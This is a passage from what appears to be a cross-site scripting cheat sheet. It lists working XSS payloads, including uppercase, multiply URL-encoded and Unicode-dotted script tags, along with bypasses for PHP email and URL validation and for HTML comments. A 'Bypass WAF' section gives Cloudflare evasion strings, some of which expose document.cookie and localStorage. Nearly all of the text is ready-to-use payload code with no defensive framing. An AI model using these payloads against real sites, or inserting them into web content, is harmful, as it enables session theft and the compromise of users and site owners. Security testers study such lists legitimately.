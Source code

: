21. Uppercase Payloads
```html
<SVG ONLOAD=ALERT(1)>
```

22. Encoded XSS
```html
(Encoded)
%3Csvg%20onload%3Dalert(1)%3E 

(Double Encoded)
%253Csvg%2520onload%253Dalert%281%29%253E 

(Triple Encoded)
%25253Csvg%252520onload%25253Dalert%25281%2529%25253E 
```

23. JS Lowercased Input
```html
<SCRİPT>alert(1)</SCRİPT>
```

24. PHP Email Validation Bypass
```html
<svg/onload=alert(1)>"@gmail.com
```

25. PHP URL Validation Bypass
```html
javascript://%250Aalert(1)
```

26. Inside Comments Bypass
```html
<!--><svg onload=alert(1)-->
```

## Bypass WAF
1. Cloudflare
```
<svg%0Aonauxclick=0;[1].some(confirm)//

<svg onload=alert%26%230000000040"")>

<a/href=j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(1)&rpar;>
<svg onx=() onload=(confirm)(1)>

<svg onx=() onload=(confirm)(document.cookie)>

<svg onx=() onload=(confirm)(JSON.stringify(localStorage))>

Function("\x61\x6c\x65\x72\x74\x28\x31\x29")();

"><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;

Function("\x61\x6c\x65\x72\x74\x28\x31\x29")();

"><onx=[] onmouseover=prompt(1)>

%2sscript%2ualert()%2s/script%2u -xss popup

<svg onload=alert%26%230000000040"1")>

"Onx=() onMouSeoVer=prompt(1)>"Onx=[] onMouSeoVer=prompt(1)>"/*/Onx=""//onfocus=prompt(1)>"//Onx=""/*/%01onfocus=prompt(1)>"%01onClick=prompt(1)>"%2501onclick=prompt(1)>"onClick="(prompt)(1)"Onclick="(prompt(1))"OnCliCk="(prompt`1`)"Onclick="([1].map(confirm))
```